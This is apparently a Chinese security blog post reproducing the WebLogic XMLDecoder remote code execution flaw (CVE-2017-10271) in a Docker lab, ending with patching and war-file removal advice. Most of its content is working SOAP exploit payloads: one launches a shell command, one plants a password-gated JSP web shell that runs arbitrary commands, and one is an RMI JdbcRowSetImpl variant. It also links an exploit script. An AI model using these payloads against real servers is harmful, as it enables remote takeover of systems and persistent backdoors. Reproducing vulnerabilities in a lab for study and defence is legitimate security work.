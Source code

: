 ```yaml
---
title: Weblogic 0day 复现
date: 2017-12-22 15:43:02
tags: [vul,sec,weblogic,0day]
categories: Security
---
```

<script src="https://ob5vt1k7f.qnssl.com/pangu.js"></script>

最近不断听到消息，大量Weblogic主机被挂挖矿病毒，起初以为是利用之前反序列化漏洞(CVE-2017-3248)，但是团队内部从受害主机捕获的攻击代码来看，这次是针对WebLogic的WLS组件，利用xmldecoder反序列漏洞进行的RCE攻击。目前官方也给出了此次漏洞的cve[CVE-2017-10271](https://www.cvedetails.com/cve/CVE-2017-10271/)

下面我们来复现一下此次的漏洞
#### 0x01 环境准备
我们选择docker来快速搭建漏洞环境，此次漏洞受影响的版本是10.3.6.0.0, 12.1.3.0.0, 12.2.1.1.0 和 12.2.1.2.0，我们选择10.3.6来复现

在P神的[vulhub](https://github.com/vulhub/vulhub)项目中正好存在weblogic环境，看了下版本也在受影响范围之内，所以我们选择vulhub的[weblogic](https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf)镜像

克隆项目，进入weblogic目录，执行
```
docker-compose build
docker-compose up -d
```
此时会创建并运行两个容器，分别是`vulhub/weblogic`和`vulhub/weblogic`, 如下图

![containers](https://ob5vt1k7f.qnssl.com/gbF5V)

访问7001端口，weblogic已经成功运行

#### 0x02 PoC
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
	<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
		<java version="1.8.0_131" class="java.beans.XMLDecoder">
		  <void class="java.lang.ProcessBuilder">
			<array class="java.lang.String" length="3">
			  <void index="0">
				<string>/bin/bash</string>
			  </void>
			  <void index="1">
				<string>-c</string>
			  </void>
			  <void index="2">
				<string>calc</string>
			  </void>
			</array>
		  <void method="start"/></void>
		</java>
	  </work:WorkContext>
	</soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```
向`/wls-wsat/CoordinatorPortType`发起一个POST请求，body部分为上面的内容，**修改`Content-Type`为`text/xml`**

目前了解的uri还有`CoordinatorPortType11`

服务器返回
```
<faultcode>S:Server</faultcode>
<faultstring>0</faultstring>
```
说明执行成功

![response](https://ob5vt1k7f.qnssl.com/yn2qT)
![reverse shell](https://ob5vt1k7f.qnssl.com/YOZ6L)

#### 0x03 Getshell
另外还有直接getshell的PoC:
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java><java version="1.4.0" class="java.beans.XMLDecoder">
            <object class="java.io.PrintWriter">
                <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/a.jsp</string><void method="println">
                    <string><![CDATA[<%if("023".equals(request.getParameter("pwd"))){  
                        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();  
                        int a = -1;  
                        byte[] b = new byte[2048];  
                        out.print("<pre>");  
                        while((a=in.read(b))!=-1){  
                            out.println(new String(b));  
                        }  
                        out.print("</pre>");} %>]]></string></void><void method="close"/>
            </object>
        </java>
      </java>
    </work:WorkContext>
  </soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```
会在`tmp/_WL_internal`下`bea_wls9_async_response`、`bea_wls_internal`和`uddiexplorer`目录中的war包下创建a.jsp文件，具体路径可自己选择，对应的web路径是

`http://x.x.x.x:7001/bea_wls_internal/a.jsp`
	
#### 0x04 RMI 利用

导师还给出了rmi调用执行的方式，可惜我对rmi机制还没研究透彻，没有构造出来利用的流程，先把PoC放在这儿:
```
    <java version="1.8.0_131" class="java.beans.XMLDecoder">
    <void class="com.sun.rowset.JdbcRowSetImpl">
    <void property="dataSourceName">
    <string>rmi://localhost:1099/Exploit</string>
    </void>
    <void property="autoCommit">
    <boolean>true</boolean>
    </void>
    </void>
    </java>
```
更新：研究了一下rmi利用，更新在了[这里](https://kylingit.com/blog/weblogic-xmldecoder-rce%E4%B9%8Brmi%E5%88%A9%E7%94%A8/)

目前看到PoC的变换还有好几种，甚至出现了绕过官方补丁的版本，后续应该会逐渐放出的。

#### 0x05 修补方案
1.安装Oracle 10月份最新补丁

2.删除或重命名WebLogic目录中以下war包及目录
```
rm -f /home/WebLogic/Oracle/Middleware/wlserver_10.3/server/lib/wls-wsat.war
rm -f /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war
rm -rf /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat
```
访问`wls-wsat`响应404即可

#### 0x06 
附
Github上[3xp10it/exploit](https://github.com/3xp10it/exploit/blob/cbc8d61859b9c4c312bb52225671831b895fdbc3/exps/weblogic/weblogic.py)仓库删除的脚本
[Weblogic.py](https://ob5vt1k7f.qnssl.com/weblogic.py)


<script>pangu.spacingPage();</script>